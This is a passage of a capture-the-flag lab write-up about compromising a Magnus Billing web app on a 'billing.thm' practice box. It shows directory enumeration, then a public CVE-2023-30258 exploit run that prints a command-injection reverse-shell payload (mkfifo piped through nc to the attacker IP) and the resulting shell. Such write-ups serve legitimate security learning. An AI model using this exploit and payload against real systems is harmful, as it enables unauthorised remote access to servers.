 - While scanning I already checked billing.thm and got redirected to /mbillings, theres a login page so it can be useful! I also ran Gobuster to check for hidden assets.
  ```
  gobuster dir -u http://billing.thm/mbilling/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ->

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /archive              (Status: 301) [Size: 321] [--> http://billing.thm/mbilling/archive/]
  /resources            (Status: 301) [Size: 323] [--> http://billing.thm/mbilling/resources/]
  /assets               (Status: 301) [Size: 320] [--> http://billing.thm/mbilling/assets/]
  /lib                  (Status: 301) [Size: 317] [--> http://billing.thm/mbilling/lib/]
  /LICENSE              (Status: 200) [Size: 7652]
  /tmp                  (Status: 301) [Size: 317] [--> http://billing.thm/mbilling/tmp/]
  /protected            (Status: 403) [Size: 276]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ```
  
- Gobuster didn’t reveal much of use since I got redirect whatever I visited, even with robots.txt, but I got access to robots.txt with curl.
  ```
  curl http://billing.thm/robots.txt           

  User-agent: *
  Disallow: /mbilling/
  ```

- After that I started experimenting with SQLI and Burp but it wasnt successfull so I pivoted to researching known vulnerabilities.
  
---

## ⚙️ Shell Access

- So I started looking for exploits online and found this one; searchsploit gave me nothing, also theres one exploit in Metasploit!<br>
  [CVE-2023-30258 Exploit](https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit)

- This one is pretty straightforward, you start a listener and then run the exploit, all the details are written on creators GitHub.
  ```
  nc -lvnp 4444

  git clone https://github.com/tinashelorenzi/CVE-2023-30258-magnus-billing-v7-exploit.git
  cd CVE-2023-30258-magnus-billing-v7-exploit
  python exploit.py -t <TARGET_IP> -a <ATTACKER_IP> -p <PORT>
  
  python exploit.py -t 10.10.15.55 -a [YOUR-THM-IP] -p 4444
  === Magnus Billing System v7 Exploit by Tinashe Matanda(SadNinja) ===
  Command Injection via icepay.php - Reverse Shell
  =======================================
  [+] Targeting: http://10.10.15.55/mbilling/lib/icepay/icepay.php
  [+] Attacker: [YOUR-THM-IP]:4444
  [+] Sending payload: ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f;
  [-] Error connecting to target: HTTPConnectionPool(host='10.10.15.55', port=80): Read timed out. (read timeout=5)
  
  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.15.55] 43050
  sh: 0: can't access tty; job control turned off
  ```